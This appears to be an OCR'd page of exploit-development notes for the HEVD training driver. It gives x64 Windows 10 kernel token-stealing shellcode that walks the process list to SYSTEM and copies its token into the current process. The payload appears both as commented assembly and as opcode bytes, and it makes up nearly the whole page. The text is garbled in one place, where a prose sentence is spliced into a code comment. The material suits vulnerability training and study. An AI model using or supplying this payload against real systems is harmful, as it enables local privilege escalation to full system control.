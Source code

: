     ; step 1 - get the current process (_EPROCESS) value into RAX :
    xor rax, rax
    mov rax, [gs:0x188]
    mov rax, [rax + 0xb8]

    ; step 2 - find the E_PROCESS of SYSTEM (pid = 4) and adjust RBX to point onto it :
    mov rbx, rax
    __findsystem:
        mov rbx, [rbx + 0x2f0] 		; Get nt!_EPROCESS.ActiveProcessLinks.Flink
        sub rbx, 0x2f0      	   	; 
        mov rcx, [rbx + 0x2e8] 		; Get nt!_EPROCESS.UniqueProcessId (PID)
        cmp rcx, 4 			        ; Compare PID to SYSTEM PID 4
    jnz __findsystem			    ; Loop until SYSTEM PID is found

    ; step 3 - replace the current process token with the SYSTEM token and return
    mov rcx, [rbx + 0x360]        ; Get SYSTEM process nt!_EPROCESS.Token
    and cl, 0xf0			      ; Clear out _EX_FAST_REF RefCnt
    mov [rax + 0x360], rcx        ; Replace the tokenHere is the shellcode for token stealing on Win10 version 10.0.18363 (19H1) :

    xor rax, rax                  ; Set NTSTATUS SUCCESS
    ret

#### opcodes 
    # step 1
    "\x48\x31\xC0"                         # xor rax, rax
    "\x65\x48\x8B\x04\x25\x88\x01\x00\x00" # mov rax, [gs:0x188]
    "\x48\x8B\x80\xB8\x00\x00\x00"         # mov rax, [rax + 0xb8]
    "\x48\x89\xC3"                         # mov rbx, rax
    # step 2 - __findsystem:
    "\x48\x8B\x9B\xF0\x02\x00\x00"         # mov rbx, [rbx + 0x2f0]
    "\x48\x81\xEB\xF0\x02\x00\x00"         # sub rbx, 0x2f0
    "\x48\x8B\x8B\xE8\x02\x00\x00"         # mov rcx, [rbx + 0x2e8]
    "\x48\x83\xF9\x04"                     # cmp rcx, 4
    "\x75\xE5"                             # jne __findsystem
    # step 3
    "\x48\x8B\x8B\x60\x03\x00\x00"         # mov rcx, [rbx + 0x360]
    "\x80\xE1\xF0"                         # and cl, 0xf0
    "\x48\x89\x88\x60\x03\x00\x00"         # mov [rax + 0x360], rcx
    "\x48\x83\xC4\x40"                     # add rsp, 0x40 ; RESTORE (Specific to HEVD)
    "\x48\x31\xC0"                         # xor rax, rax
    "\xC3"                                 # ret

# Driver Debug
## FIND MAJOR FUNCTION
